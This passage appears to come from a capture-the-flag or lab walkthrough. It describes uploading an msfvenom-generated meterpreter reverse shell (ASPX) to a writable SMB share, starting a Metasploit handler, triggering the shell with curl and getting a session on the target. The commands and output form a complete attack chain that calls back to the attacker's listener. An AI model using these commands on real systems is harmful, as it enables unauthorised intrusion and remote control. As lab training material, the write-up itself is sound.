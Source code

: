 ## Upload reverse shell

Interestingly, the network share is writable, which means we can upload arbitrary files. Let's first generate a reverse shell with `msfvenom`:

~~~
$ msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=10.8.50.72 lport=4444 -f aspx -o shell.aspx
~~~

Now, let's connect to the network share and upload our reverse shell `aspx` file:

~~~
smb: \> put shell.aspx 
putting file shell.aspx as \shell.aspx (12.9 kb/s) (average 7.9 kb/s)
smb: \> ls
  .                                   D        0  Thu Aug 27 22:48:34 2020
  ..                                  D        0  Thu Aug 27 22:48:34 2020
  passwords.txt                       A       98  Sat Jul 25 17:15:33 2020
  shell.aspx                          A    38409  Thu Aug 27 22:48:37 2020
  test.txt                            A        5  Thu Aug 27 22:42:10 2020

		7735807 blocks of size 4096. 4946700 blocks available
smb: \> 
~~~

Start a listener in Metasploit

~~~
kali@kali:/data/vpn$ msfconsole -q
msf5 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_tcp
payload => windows/x64/meterpreter_reverse_tcp
msf5 exploit(multi/handler) > set lhost 10.8.50.72
lhost => 10.8.50.72
msf5 exploit(multi/handler) > set lport 4444
lport => 4444
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.8.50.72:4444 
~~~

And call the reverse shell in the browser or with `curl`:

~~~
$ curl http://10.10.11.52:49663/nt4wrksv/shell.aspx
~~~

We now have a meterpreter session:

~~~
[*] Meterpreter session 1 opened (10.8.50.72:4444 -> 10.10.11.52:49728) at 2020-08-28 08:57:33 +0200

meterpreter > getuid 
Server username: IIS APPPOOL\DefaultAppPool
~~~
